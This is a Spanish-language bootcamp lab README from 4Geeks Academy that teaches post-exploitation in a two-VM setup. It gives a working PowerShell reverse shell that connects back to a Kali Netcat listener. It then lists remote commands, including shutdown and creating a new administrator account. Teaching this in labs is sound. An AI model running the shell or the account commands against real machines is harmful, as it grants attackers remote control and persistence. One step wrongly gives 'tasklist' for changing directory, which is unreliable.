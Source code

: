 <!-- hide -->
# Comandos CMD de Windows para Hacking Remoto

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![build by developers](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

<onlyfor saas="true" withBanner="true">

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

</onlyfor>

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.

![imagen](assets/powershell.png)

<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:

![imagen 1](assets/listening_dir.png)

### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```
![imagen 2](assets/systeminfo.png)

- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```
![imagen 3](assets/ipconfig.png)

- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:

![imagen 4](assets/hostname.png)

- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)


<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->
